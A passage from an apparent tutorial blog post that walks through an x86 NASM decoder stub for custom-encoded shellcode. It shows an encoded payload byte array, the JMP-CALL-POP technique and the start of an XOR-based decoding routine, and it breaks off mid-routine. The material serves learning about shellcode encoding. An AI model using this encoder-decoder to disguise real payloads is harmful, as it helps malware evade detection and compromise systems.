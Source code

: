 ```nasm
    encoded: db 0x2,0xa8,0x1e,0xa8,0xad,0x21,0xf5,0x89,0x7a,0xce,0x3d,0x89,0xfb,0xce,0x2a,0x83,0xbb,0x51,0x23,0x68,0x19,0x6c,0xf2,0xc5,0xe3,0x6c,0xf4,0xc5,0xe3,0x2c,0xc1,0xeb
```

As you can see, it is based on the famous `JMP-CALL-POP` technique in order to get a reference to the shellcode. I chose to use this because the other one I knew (pushing groups of `4` bytes on the stack) would increase the size of the shellcode.


Anyways, now the routine `Decode` must be implemented to decode the encoded shellcode. As mentioned previously, the first decoding operation is the following:

> 1. `XOR` each byte with the value of `shellcode_length_least_byte`, made exception for bytes equal to it

```nasm
_start:
    ; clear some registers for later use
    xor ebx, ebx
    mul ebx
    mov ecx, eax

    jmp short CallShellcode

Shellcode:

    ; get a reference to the encoded shellcode
    pop esi

    ; copy the address of the first encoded assembly instruction into EBX
    ;   +4 -> skip the first 4 auxiliary bytes 
    lea ebx, [esi+4]

    ; copy ROT_EVEN and ROT_ODD into AX
    ;   AL: ROT_EVEN
    ;   AH: ROT_ODD
    mov ax, WORD [esi]

    ; copy the XOR-ed length of the shellcode into CX
    ;   and XOR it again with ROT_EVEN:ROT_ODD to decode it
    mov cx, WORD [esi+2]
    xor cx, ax

    ; copy the length of the shellcode on the stack, for later use
    push ecx
```

{% sidenote Prepare registers before actually jumping to the `Decode` routine %}

```nasm
Decode:

    ; copy the length of the shellcode (previous 'push ecx') into DL
    ; and check if the two bytes are the same
    mov dl, [esp]
    cmp dl, BYTE [ebx]

    ; if they are equal jump to the next decoding operation: NOT
    je NotDecode

    ; if they aren't the equal, then XOR the byte with 'shellcode_length_least_byte'
    ;   which is the length of the shellcode XOR-ed with ROT_EVEN
    mov dl, [esi+2]
    xor BYTE [ebx], dl
```
